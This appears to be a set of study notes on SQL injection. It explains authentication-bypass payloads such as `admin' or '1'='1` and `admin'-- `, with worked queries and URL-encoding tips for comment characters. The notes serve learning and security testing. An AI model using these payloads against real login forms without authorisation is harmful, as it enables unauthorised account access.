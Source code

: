 # SQL Injection
### Summary
Injection occurs user-input is put into the SQL query string without properly sanitizing or filtering the input
## Common
## Authentication Bypass
For Auth bypass, the query always needs to return true
```sql
# Basic Admin Panel Query String
SELECT * FROM logins WHERE username = 'admin' AND password = 'p@ssw0rd';
# This statement returns True based on the "AND" Statement if both the username and password match the same entry in sql,
# and thus allows the login
```
### OR Injection ([Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass))
```sql
# Injected Code
admin' or '1'='1
# Final Query
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password = 'something';

# Easy way to understand this, AND is evaluated first and will return false, assuming 'something' isn't the password
# When the OR is evaluated, 1=1 is always true, so that will return true, and because it's an "OR" statement, the
# whole statement will return true. 
# NOTE: This will only work with a valid username
```
```sql
# No known username (We need to have an overall true query)
SELECT * FROM logins WHERE username='notAdmin' OR '1'='1' AND password = 'something' OR '1'='1';

# The additional OR statement makes the password field evaluate as true, because 1=1 is always true.
```
### Using Comments
3 types of comments ```--```,```#``` and inline comments ```/**/```(Inline comments are not frequently used in injection)
```sql
# Example "-- "
SELECT username FROM logins; -- Selects usernames from the logins table

# NOTE: 2 dashes are not enough to start a comment. There has to be space at the end. The empty space cannot be passed in a
# URL. Use (+) to url encode an empty space
```
```sql
# Example "#"
SELECT username FROM logins; # Selects usernames from the logins table
# Note: # will not be passed in a URL. It has to be URL encoded as '%23'
```
```sql
# Using comment for auth bypass
# Injected Code "admin'-- " as the username
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
# Everything after the '-- ' is commented out, and as long as the username match's in SQL, the query will return true
```